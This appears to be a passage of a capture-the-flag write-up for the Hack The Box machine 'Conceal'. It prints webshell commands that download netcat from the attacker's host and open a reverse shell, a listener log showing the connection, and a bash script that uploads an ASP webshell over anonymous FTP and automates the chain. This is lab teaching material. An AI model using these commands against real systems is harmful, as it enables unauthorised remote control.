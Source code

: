 WEBSHELL: mkdir C:\tmp

[root:/opt/shells/asp]# python3 -m http.server 8080
  Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
  10.10.10.116 - - [24/Mar/2021 12:23:48] "GET /nc64.exe HTTP/1.1" 200 -

WEBSHELL: powershell Invoke-WebRequest -Uri "http://10.10.14.11:8080/nc64.exe" -OutFile "C:\tmp\nc64.exe"
WEBSHELL: powershell -c "C:\tmp\nc64.exe 10.10.14.11 4488 -c cmd"

[root:/git/htb/conceal]# nc -lvnp 4488                                                                                            (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.11] from (UNKNOWN) [10.10.10.116] 49705
  Microsoft Windows [Version 10.0.15063]
  (c) 2017 Microsoft Corporation. All rights reserved.

  C:\Windows\SysWOW64\inetsrv>


This whole process can also be automated if one would want to make a script. For this I made a real quick and dirty
bash script, curl-rev.sh, as a poc.

[root:/git/htb/conceal]# cat curl-rev.sh                                                                                          (master✱)
  #!/bin/bash

  ### IMPORTANT! ###
  # Before you run the script, make sure to setup:
  # python -m http.server 8080 (in a folder where nc64.exe exists)
  # rlwrap nc -lvnp 4488

  # Upload Webshell
  curl --user anonymous:anonymous --upload-file /opt/shells/asp/webshell.asp ftp://conceal.htb/

  # Upload nc64.exe and executes reverse:
  # mkdir C:\tmp
  # powershell Invoke-WebRequest -Uri "http://10.10.14.11:8080/nc64.exe" -OutFile "C:\tmp\nc64.exe"
  # C:\tmp\nc64.exe 10.10.14.11 4488 -e cmd
  curl http://conceal.htb/upload/webshell.asp\?cmd\=mkdir%20C%3A%5Ctmp
  curl http://conceal.htb/upload/webshell.asp\?cmd\=powershell%20Invoke-WebRequest%20-Uri%20%22http%3A%2F%2F10.10.14.11%3A8080%2Fnc64.exe%22%20-OutFile%20%22C%3A%5Ctmp%5Cnc64.exe%22
  sleep 1
  curl http://conceal.htb/upload/webshell.asp\?cmd\=C%3A%5Ctmp%5Cnc64.exe%2010.10.14.11%204488%20-e%20cmd
  echo "done!"
